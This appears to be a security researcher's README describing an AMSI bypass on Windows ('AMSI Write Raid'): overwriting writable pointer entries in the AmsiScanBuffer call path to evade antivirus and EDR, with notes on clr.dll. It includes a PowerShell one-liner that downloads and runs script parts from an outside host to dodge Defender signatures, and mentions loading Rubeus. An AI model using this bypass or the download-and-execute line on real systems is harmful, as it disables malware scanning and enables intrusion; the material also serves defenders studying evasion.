






__AMSI WRITE RAID VULNERABILITY__

This is a vulnerability discovery for bypassing Antimalware Scan Interface (AMSI) and I will call it AMSI Write Raid, I mean why not?

Usually all the memory addresses pointing to the functions and data within the DLLs that the program depends on are inside the import address table (IAT) and they are marked as read only, so whenever you want to tamper with them, you have to use VirtualProtect api to mark the page as writable first.

And so EDR's will monitor the VirtualProtect API to see if the API call is doing something suspicious or not. 

But strangely, I discovered a writable entry that you can overwrite without the need of `VirtualProtect` API, that can bypass the whole AMSI process.

And because I am not using VirtualProtect API to change the memory protection, as it is already marked as Read/Write, it will likely bypass AV's and EDR's.

Note: Most AV's supports and uses the AMSI functionality developed by Microsoft, so bypassing AMSI => Bypasses not only defender but all of them.

Tested on win11 Build 22631 (Latest at the time of writing) and windows Preview.

**Update 14/05/2024**

I wanted to mention that this was not the only writable entry that you can overwrite to bypass AMSI with the same concept. I disovered that most of the highlighed entries (vulnerable_entries.png) in the call stack image below are as well vulnerable to the same vulnerability discussed in the paper / blog (writable_entries_part_1.png). The entries are not write protected, so overwriting any of the call pointers would bypass Amsi as well.





**Update 28/10/2024**

This POC is still working, but it is signatured by Defender after being published for some time.

A simple trick To bypass Signature => is to split the script to different files and call them 1 by 1  :)

Something like this:

```
IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part1.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part2.ps1");IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.26.141/part3.ps1");
```

### CLR.DLL Vulnerability ###
The same vulnerability exists in clr.dll (PW5) and coreclr.dll (PW7) which allows you to load c# assemblies into Powershell at runtime without being blocked by AMSI.

After using the POC.ps1, if you try to load rubeus for example, you will get blocked by AMSI, even though the error is a bit confusing but this is because of AMSI.



You have to do the same analysis that I did, and your starting point is always amsi!AmsiScanBuffer.





The call __guard_dispatch_icall_fptr__ is added as part of a security feature that was created to combat memory corruption vulnerabilities. By placing tight restrictions on where an application can execute code from, it makes it much harder for exploits to execute arbitrary code through vulnerabilities such as buffer overflows. that security feature is called __Control Flow Guard__.

https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard

_CFG Call_ will take the value inside rax which is the location of _AmsiScanBuffer_ pointer and validate it using a set of bitmaps if that address is allowed to run or not and then call it (if allowed).

while __Control Flow Guard (CFG)__ is outside the scope of this blog, it will not concern us, as we are not changing the location of the pointer that is being called, so we will not be triggering CFG.

The Full Bypass:



I will not publish the POC for clr.dll, I will keep it as an exercise :)